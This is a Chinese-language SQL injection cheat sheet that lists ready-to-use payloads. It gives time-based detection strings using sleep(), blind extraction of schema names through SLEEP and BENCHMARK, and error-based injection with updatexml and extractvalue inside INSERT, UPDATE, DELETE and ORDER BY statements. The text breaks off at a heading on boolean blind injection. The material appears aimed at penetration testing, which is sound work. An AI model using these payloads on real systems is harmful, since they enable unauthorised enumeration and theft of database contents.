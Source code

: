 **检测方法**

**`1 or sleep(25)=0 limit 1 #`**

**`1) or sleep(25)=0 limit 1 #`**

**`1' or sleep(25)=0 limit 1 #`**

**`') or sleep(25)=0 limit 1 #'`**

**`1)) or sleep(25)=0 limit 1 #`**

**`select sleep(25) #`**

**payload**

**`UNION SELECT IF(SUBSTR((SELECT GROUP_CONCAT(schema_name SEPARATOR 0x3c62723e) FROM INFORMATION_SCHEMA.SCHEMATA),i,1) < j,BENCHMARK(100000,SHA1(1)),0);`**

**`UNION SELECT IF(SUBSTR((SELECT GROUP_CONCAT(schema_name SEPARATOR 0x3c62723e) FROM INFORMATION_SCHEMA.SCHEMATA),i,1) < j,SLEEP(10),0);`**

#### insert/update/delete 注入

**insert**

**报错注入方式：**

**`insert into message(id,user_id,message_id) values (4,'zedd' or updatexml(1,concat(0x7e,(select @@version),0x7e),0) or '', 'hi');`**

**`insert into message(id,user_id,message_id) values (4,'zedd' or extractvalue(1,concat(0x7e,(select @@version))) or '', 'hi');`**

**没有回显可以使用延时：**

**`insert into message(id,user_id,message_id) values (5,'0' or IF(SUBSTR((SELECT GROUP_CONCAT(schema_name) FROM INFORMATION_SCHEMA.SCHEMATA),1,1)<200,SLEEP(10),0), 'hi');`**

**update**

**报错注入方式：**

**`update message set user_id='1' or updatexml(1,concat(0x7e,(version()),0x7e),0) or''WHERE id=2;`**

**`update message set user_id='1' or extractvalue(1,concat(0x7e,database())) or''WHERE id=2;`**

**delete**

**报错注入方式：**

**`delete from message where id=2 or updatexml(1,concat(0x7e,(version()),0x7e),0) or'';`**

**`delete from message where id=2 or extractvalue(1,concat(0x7e,database())) or'';`**

#### Order by 后注入

**报错注入**

**`1 and extractvalue(1, concat(0x7e, (select @@version),0x7e));`**

**bool盲注 利用 rand()**

